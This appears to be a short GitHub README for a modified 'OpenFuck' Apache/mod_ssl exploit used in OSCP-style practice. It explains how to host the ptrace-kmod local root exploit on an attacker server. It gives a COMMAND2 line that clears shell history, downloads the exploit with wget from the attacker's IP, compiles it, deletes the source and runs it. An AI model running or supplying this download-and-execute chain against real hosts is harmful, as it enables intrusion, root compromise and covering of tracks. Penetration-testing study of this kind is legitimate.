 # openfuck_oscp


## modified the code on line 671



## download ptrace-kmod.c from https://packetstormsecurity.com/files/download/30973/ptrace-kmod.c 



## host  ptrace-kmod.c in apache server and replace the url with apache  


## added the lines export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin to overcome ld error


## enter url of the file in the command2



## change the url only to execute the code
```
#define COMMAND2 "unset HISTFILE; cd /tmp;export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin; wget http://enter ur ip here/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c; rm ptrace-kmod.c; ./exploit; \n"
```
# for more refer:https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1


